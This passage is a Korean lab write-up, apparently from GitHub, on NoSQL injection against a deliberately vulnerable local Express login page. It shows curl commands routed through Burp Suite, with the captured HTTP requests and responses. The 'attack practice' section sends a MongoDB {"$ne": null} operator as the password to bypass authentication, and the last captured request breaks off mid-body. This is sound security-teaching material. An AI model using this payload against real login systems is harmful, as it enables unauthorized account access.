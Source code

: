 ## 로그인 테스트 
- 로그인을 테스트해본다. curl을 사용해서 Burp Suite로 캡쳐한다. 
- PC의 hosts파일을 수정해서 my-unsafeweb.com이 127.0.0.1로 연결되도록 DNS설정을 해둔다. (타겟 주소를 localhost로 하면 Burp Suite가 캡쳐를 하지 못한다.)

```sh
curl -X POST http://my-unsafeweb.com:3000/login -d '{"username":"moon", "password":"12345"}' -H "Content-Type: application/json" -x http://localhost:8080
```

Burp Suite에서 캡쳐한 HTTP 요청이다. 

```http
POST /login HTTP/1.1
Host: my-unsafeweb.com:3000
User-Agent: curl/8.0.1
Accept: */*
Content-Type: application/json
Content-Length: 39
Connection: close

{"username":"moon", "password":"12345"}
```

HTTP응답. 로그인에 성공했다. 

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 31
ETag: W/"1f-rvRDfuLuahQ9mLO31qUiKaMtBqs"
Date: Tue, 24 Oct 2023 05:13:33 GMT
Connection: close

{"message":"Logged in as moon"}
```

# 공격 실습 💉

패스워드에 오퍼레이터를 사용한다. `{ "$ne": null }`를 사용해서 null이 아닌 조건을 사용했다. 

```sh
curl -X POST http://my-unsafeweb.com:3000/login -d '{"username":"moon", "password": { "$ne": null }}' -H "Content-Type: application/json" -x http://localhost:8080
```


```htto
POST /login HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
Content-Length: 64
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


{
    "username": "moon",
```